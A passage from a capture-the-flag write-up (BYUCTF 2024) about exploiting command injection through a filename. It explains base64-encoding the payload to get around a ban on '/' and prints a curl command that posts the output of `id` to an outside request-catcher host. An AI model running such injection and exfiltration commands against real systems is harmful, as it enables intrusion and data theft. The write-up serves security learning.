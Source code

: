 ![image](/assets/img/posts/byuctf24/no-req-2.png)

Well, the answer is no :')

If we look at the underlying request, we see that there is actually an issue with the filename.
![image](/assets/img/posts/byuctf24/invalid_filename.png)

By the way, it is not possible to use `/` in the filename, and thus in our payload. It is therefore not possible to use commands such as `cat /flag.txt`. Damn, that will makes things a bit harder.

A simple trick to circumvent this is to base64 encode the payload :
![image](/assets/img/posts/byuctf24/b64-encode-trick.png)

We encode our callback payload :
```bash
curl -X POST -d "$(id)" https://happi.requestcatcher.com/test
```

and this time, we finally get a callback !

![image](/assets/img/posts/byuctf24/callback1.png)
